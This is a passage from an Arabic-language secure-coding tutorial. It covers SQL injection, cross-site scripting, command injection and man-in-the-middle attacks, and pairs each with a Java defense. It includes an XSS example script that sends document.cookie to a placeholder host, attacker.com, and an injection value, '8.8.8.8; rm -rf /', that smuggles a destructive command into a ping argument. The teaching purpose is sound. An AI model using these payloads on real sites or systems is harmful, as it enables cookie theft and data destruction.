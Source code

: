 **الحماية من SQL Injection:**
```java
// استخدام Prepared Statements
String query = "SELECT * FROM users WHERE username = ?";
PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setString(1, username);
ResultSet rs = pstmt.executeQuery();
```

**ب. Cross-Site Scripting (XSS)**
```html
<!-- مثال على XSS -->
<script>
  // سرقة الكوكيز
  document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>
```

**الحماية من XSS:**
```java
import org.springframework.web.util.HtmlUtils;

// تنظيف المدخلات
String sanitized = HtmlUtils.htmlEscape(userInput);
```

**ج. Command Injection**
```java
// كود ضعيف
Runtime.getRuntime().exec("ping " + userInput);

// هجوم محتمل
userInput = "8.8.8.8; rm -rf /"

// الحماية: التحقق من صحة المدخلات
if (userInput.matches("^[0-9.]+$")) {
    Runtime.getRuntime().exec("ping " + userInput);
}
```

### 5. هجمات Man-in-the-Middle (MITM)

```
    Client                  Attacker                Server
      │                        │                       │
      │──── Request ──────────>│                       │
      │                        │─── Request ──────────>│
      │                        │<─── Response ─────────│
      │<──── Response ─────────│                       │
      │                        │                       │
         (Attacker يعترض ويعدل البيانات)
```

#### الحماية من MITM:
- استخدام HTTPS/TLS
- Certificate Pinning
- VPN
- تجنب الشبكات العامة غير الآمنة
